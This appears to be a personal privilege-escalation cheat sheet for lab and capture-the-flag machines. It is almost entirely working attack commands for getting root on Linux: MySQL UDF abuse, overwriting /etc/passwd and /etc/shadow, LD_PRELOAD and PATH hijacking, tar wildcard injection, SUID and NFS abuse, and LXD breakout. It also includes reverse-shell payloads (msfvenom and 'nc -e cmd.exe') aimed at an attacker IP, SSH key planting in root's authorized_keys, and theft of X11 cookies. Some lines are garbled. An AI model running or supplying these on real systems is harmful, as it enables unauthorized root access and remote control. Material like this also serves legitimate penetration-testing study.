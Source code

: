#MUST CHECK
Sudo
SUID
Windows Token Privileges

#Service Exploits && MYSQL
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
exit
/tmp/rootbash -p
#Weak File Permissions - Writable /etc/shadow
mkpasswd -m sha-512 newpasswordhere
#Weak File Permissions - Writable /etc/passwd
openssl passwd newpasswordhere
Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").
Switch to the root user, using the new password
#Sudo - Environment Variables
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-here

ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2

#Cron Jobs - File Permissions
cat /etc/crontab
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh

#Cron Jobs - PATH Environment Variable

Create a file called overwrite.sh in your home directory with the following contents:

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

chmod +x /home/user/overwrite.sh
/tmp/rootbash -p

#Cron Jobs - Wildcards
cat /usr/local/bin/compress.sh
output: tar czf /tmp/backup.tar.gz *
Take a look at the GTFOBins page for tar.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
chmod +x /home/user/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
When the tar command in the cron job runs, the wildcard (*) will expand to include these files.

#SUID / SGID Executables - Known Exploits
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
Note that /usr/sbin/exim-4.84-3 appears in the results.
/home/user/tools/suid/exim/cve-2016-1531.sh

#SUID / SGID Executables - Shared Object Injection
The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
/usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so

#SUID / SGID Executables - Environment Variables
The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env

#SUID / SGID Executables - Abusing Shell Features (#1)
The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.
strings /usr/local/bin/suid-env2
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
/bin/bash --version
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2

#SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.
When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p

#NFS
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the System:
cat /etc/exports

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf
Back on the System, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf

#Kernel Exploits 
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.
Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
#MSFconsole
irb
system("/bin/bash")
#VIM
-c ':!/bin/sh' /dev/null
OR
vi
:set shell=/bin/sh
:shell
#exe file in bat file
type job.bat
icacls job.bat
echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
#LXD
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
lxc image import ./alpine-v3.14-x86_64-20210809_0302.tar.gz

F. I forgot to add the alias. Nvm, run this command:
lxc image list
Here, we see its fingerprint. Delete this image using:
lxc image delete fdf378551f70

Now back to the task:
lxc image import ./alpine-v3.14-x86_64-20210809_0302.tar.gz --alias myimagelxc init myimage ignite -c security.privileged=true

If error:
lxd init

Last commands:
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root
 
#X11

cat /mnt/2/.Xauthority | base64
echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
export XAUTHORITY=/tmp/.Xauthority
w
man xwd
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
convert screen.xwd screen.png

#journalctrl

resize youre terminal to very small 
type: !/bin/bash

#initctl

get the folder where the files are generating 
(for me /etc/init/test.conf)
edit the file:

script
chmod u+s /bin/bash
end script
#Software
dpkg -l
cat /etc/lsb-release
uname -r
#ALL
sudo su -
#Another user
sudo -u user /bin/vuln
#SSH file replacement 
ssh-keygen -f kei
echo "key.pub" >> /root/.ssh/authorized_keys
ssh root@10.10.10.10 -i key
#File Transfer
scp linenum.sh user@remotehost:/tmp/linenum.sh

s1l3ntmask@remote$ base64 file.txt -w 0
s1l3ntmask@local$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file.txt

CHECK:
s1l3ntmask@local$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell

s1l3ntmask@remote$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
#PERM 
find / -perm -u -c 'import pty;pty.spawn("/bin/bash")'=s -type f 2>/dev/null
find / -type f  -perm -u=katie  2> /dev/null
find / -perm -4000 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -perm -777 2>/dev/null
#Java
If you hacked yourself in a system with java try to find a password in the files
#List nginx confing file
domain name is soccer.htb
ls -la /etc/nginx/sites-enabled/
found: soc-player.htb
soc-player.htb is a subdomain
echo "10.10.11.194 soc-player.soccer.htb" | sudo tee -a /etc/hosts
#Log
grep -R -e 'password' /var/log/

#Path Hijaking
This exploit works only whan a binary file is running root

cd /tmp
nano tail

tail:
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +us /tmp/rootbash

export PATH=/tmp:$PATH
chmod +x tail

run your binary file 

